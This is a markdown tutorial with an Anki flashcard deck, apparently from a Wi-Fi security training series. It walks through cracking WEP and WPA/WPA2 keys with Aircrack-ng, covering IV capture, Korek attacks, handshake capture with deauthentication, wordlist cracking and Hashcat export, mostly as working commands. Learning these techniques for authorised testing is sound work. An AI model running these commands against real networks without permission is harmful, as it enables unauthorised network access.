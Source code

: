 # Chain #6: Cracking Keys

This chain covers how to use **Aircrack-ng** to crack WEP and WPA/WPA2 keys once you’ve already captured the necessary packets (IVs or handshakes). The process is fully offline: no live interaction with access points after capture.

---

## Step 1: Benchmarking Your System

Before cracking, test CPU performance to estimate cracking speed.

```bash
sudo aircrack-ng -S
```
- `-S` → Benchmark mode, tests key-cracking speed.
- Output: keys/second rate (k/s). Higher is better.

**Why this matters**: Cracking WPA with a large wordlist can take hours/days. Knowing your system’s speed lets you plan accordingly.

---

## Step 2: Cracking WEP Keys

### 2.1 Capture IVs with Airodump-ng

WEP cracking depends on Initialization Vectors (IVs). You need thousands to succeed.

```bash
sudo airodump-ng --ivs -w capture wlan0mon
```
- `--ivs` → Save only IVs (smaller file size, faster analysis).
- `-w capture` → Output file prefix.

### 2.2 Run Aircrack-ng with Korek Method

```bash
sudo aircrack-ng -K capture.ivs
```
- `-K` → Use Korek WEP attack (collection of statistical cracking methods).
- `capture.ivs` → File containing IVs.

**Output**: Displays tested keys until WEP key is found.

**Scenario Note**:
- If you don’t have enough IVs, combine with Aireplay-ng ARP injection attacks to speed up IV generation.

---

## Step 3: Cracking WPA/WPA2 Keys

### 3.1 Capture a Handshake

Use Airodump-ng to capture the WPA 4-way handshake.
- Deauthentication attacks with Aireplay-ng help force clients to reconnect, generating the handshake.

```bash
sudo airodump-ng -c <channel> --bssid <AP_MAC> -w capture wlan0mon
```
- `-c <channel>` → Stay on target channel.
- `--bssid <AP_MAC>` → Lock on specific AP.
- `-w capture` → Save packets.

Look for `WPA handshake: <BSSID>` in top-right corner of output.

### 3.1b Extract for Hashcat (mode 22000)

```
# Extract WPA handshake/PMKID into Hashcat's 22000 format
hcxpcapngtool -o hackme.22000 hackme-01.cap
```
- Produces a `.22000` file for `hashcat -m 22000`. Faster/cleaner than older formats.
### 3.2 Run Aircrack-ng with Wordlist

```bash
sudo aircrack-ng capture.cap -w /path/to/wordlist.txt
```
- `capture.cap` → File with captured handshake.
- `-w /path/to/wordlist.txt` → Dictionary file with possible passwords.

**Scenario Notes**:
- WPA cracking requires a wordlist. Pure brute-force (all combinations) is impractical.
- If handshake is partial (missing packets), Aircrack-ng may still crack if it has packets 2+3 or 3+4.

### 3.2b Legacy: convert to HCCAPX for Hashcat (mode 2500)

```
# Legacy export for Hashcat mode 2500 (.hccapx)
sudo aircrack-ng capture.cap -J hackme
# -> hackme.hccapx (use: hashcat -m 2500 hackme.hccapx /path/to/wordlist.txt)
```
- Useful when following older guides that still expect `.hccapx`.
### 3.3 PMKID-Based Cracking (Alternative)

Some WPA networks allow PMKID extraction without clients.

```bash
sudo aircrack-ng capture.cap -w /path/to/wordlist.txt
```
- Works the same way if capture contains PMKID.

---

## Step 4: Verifying the Key

Once a key is found, Aircrack-ng will display:
- **KEY FOUND! [ password ]**
- Derived Master/Transient keys

You can then test it by connecting to the network (see Chain #7).

---

## Anki Deck:

```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6
n1A2b3C4d5	Basic	Ops::WiFi Gym::Chain 06: Cracking Keys	What is an Initialization Vector (IV) in WEP cracking?	A per-packet random value used with the WEP key. Collecting many IVs allows statistical attacks to recover the WEP key.	wifi
f6G7h8I9j0	Basic	Ops::WiFi Gym::Chain 06: Cracking Keys	What is a WPA 4-way handshake?	An authentication exchange between client and AP that confirms both know the pre-shared key and generates encryption keys.	wifi
k1L2m3N4o5	Basic	Ops::WiFi Gym::Chain 06: Cracking Keys	What is a PMKID in WPA/WPA2 networks?	A Pairwise Master Key Identifier that can be captured directly from the AP without a client, enabling offline cracking.	wifi
p6Q7r8S9t0	Basic (type in the answer)	Ops::WiFi Gym::Chain 06: Cracking Keys	Which Aircrack-ng option invokes the Korek statistical attacks for WEP key recovery when cracking capture.ivs?	<code>-K</code>	wifi
u1V2w3X4y5	Basic	Ops::WiFi Gym::Chain 06: Cracking Keys	Why is WPA cracking wordlist-based instead of statistical like WEP?	WPA uses strong per-session key derivation (PBKDF2 with SHA1) that cannot be cracked statistically; only dictionary attacks are feasible.	wifi
z6A7b8C9d0	Basic (type in the answer)	Ops::WiFi Gym::Chain 06: Cracking Keys	Which Aircrack-ng command benchmarks cracking speed on your system?	<code>sudo aircrack-ng -S</code>	wifi
e1F2g3H4i5	Basic (type in the answer)	Ops::WiFi Gym::Chain 06: Cracking Keys	Which Airodump-ng command captures only WEP IVs into a file named capture.ivs using interface wlan0mon?	<code>sudo airodump-ng --ivs -w capture wlan0mon</code>	wifi
j6K7l8M9n0	Basic (type in the answer)	Ops::WiFi Gym::Chain 06: Cracking Keys	Which Aircrack-ng command cracks WEP IVs in capture.ivs using Korek attacks?	<code>sudo aircrack-ng -K capture.ivs</code>	wifi
o1P2q3R4s5	Basic (type in the answer)	Ops::WiFi Gym::Chain 06: Cracking Keys	Which Airodump-ng command captures a WPA handshake on channel 6 for AP AA:BB:CC:DD:EE:FF, saving to capture.cap using interface wlan0mon?	<code>sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon</code>	wifi
t6U7v8W9x0	Basic (type in the answer)	Ops::WiFi Gym::Chain 06: Cracking Keys	Which Aircrack-ng command cracks the WPA handshake stored in capture.cap using the wordlist rockyou.txt?	<code>sudo aircrack-ng capture.cap -w rockyou.txt</code>	wifi
hN2cR7yWpK	Basic (type in the answer)	Ops::WiFi Gym::Chain 06: Cracking Keys	Which command extracts WPA/PMKID material into Hashcat’s 22000 format from hackme-01.cap, outputting hackme.22000?	<code>hcxpcapngtool -o hackme.22000 hackme-01.cap</code>	wifi
zT5uL1aGxD	Basic (type in the answer)	Ops::WiFi Gym::Chain 06: Cracking Keys	Which Aircrack-ng command exports an .hccapx file named hackme.hccapx from capture.cap for Hashcat legacy mode 2500?	<code>sudo aircrack-ng capture.cap -J hackme</code>	wifi
```